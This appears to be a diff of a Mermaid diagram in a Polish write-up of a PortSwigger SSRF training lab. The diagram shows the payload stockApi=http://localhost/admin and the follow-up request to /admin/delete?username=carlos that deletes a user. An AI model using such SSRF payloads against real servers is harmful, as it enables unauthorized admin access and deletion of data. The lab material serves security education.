

Before and after one commit to DrCondor/portswigger-labs: the diagram in ssrf/01-basic-ssrf-local-server.md, drawn with Mermaid (neutral theme). The commit also changed other lines of this file and 26 other files, not shown here.

````diff
--- a/ssrf/01-basic-ssrf-local-server.md
+++ b/ssrf/01-basic-ssrf-local-server.md
@@ -66,9 +38,8 @@
 ```mermaid
 flowchart TD
-    A[POST /product/stock<br/>stockApi=http://localhost/admin] --> B[Serwer fetchuje /admin z localhost]
+    A["POST /product/stock<br/>stockApi=http://localhost/admin"] --> B[Serwer fetchuje /admin z localhost]
     B --> C[200 OK — HTML panelu admina w odpowiedzi]
     C --> D["Wyczytaj link: /admin/delete?username=carlos"]
-    D --> E[POST /product/stock<br/>stockApi=http://localhost/admin/delete?username=carlos]
-    E --> F[302 Found, Location: /admin = skasowane]
-    F --> G[Solved]
+    D --> E["stockApi=http://localhost/admin/delete?username=carlos"]
+    E --> F[302 Found = skasowane → Solved]
 ```
````
